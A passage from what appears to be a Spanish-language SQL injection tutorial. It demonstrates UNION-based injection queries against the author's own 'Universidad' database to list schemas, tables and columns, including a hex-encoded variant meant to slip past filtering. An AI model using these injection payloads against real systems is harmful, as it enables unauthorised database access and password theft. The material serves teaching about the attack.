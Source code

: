 ### Enumerando Base de datos

directamente vamos a inyectar sentencias para filtrar información propia de nuestra DB.

Comenzaré a observar los nombres de nuestras bases de datos creadas

```sql
select nombre,password from Alumnos where id = 1 union select "NULL", schema_name from information_schema.schemata;
```
![](/assets/img/commons/SQLI/sql11.png)

Ahora bien digamos que este atacante ya consulto el nombre de mis bases de datos y quiere saber mas sobre Universidad por lo tanto la siguiente consulta es para las tablas de la base de datos 'Universidad'

> Nota: podemos filtrarlo con un valor hexadecimal 

```sql
select nombre,password from Alumnos where id = 1 union select "NULL", table_name from information_schema.tables where table_schema = 'Universidad';

#Hexadecimal 

select nombre,password from Alumnos where id = 1 union select "NULL", table_name from information_schema.tables where table_schema = 0x556e6976657273696461640a;
```
![](/assets/img/commons/SQLI/sql12.png)

Ahora vamos a observar las columnas de mi base de datos Universidad de la tabla Alumnos

```sql
select nombre,password from Alumnos where id = 1 union select "NULL", column_name from information_schema.columns where table_schema = 'Universidad' and table_name = 'Alumnos';
```
![](/assets/img/commons/SQLI/sql13.png)
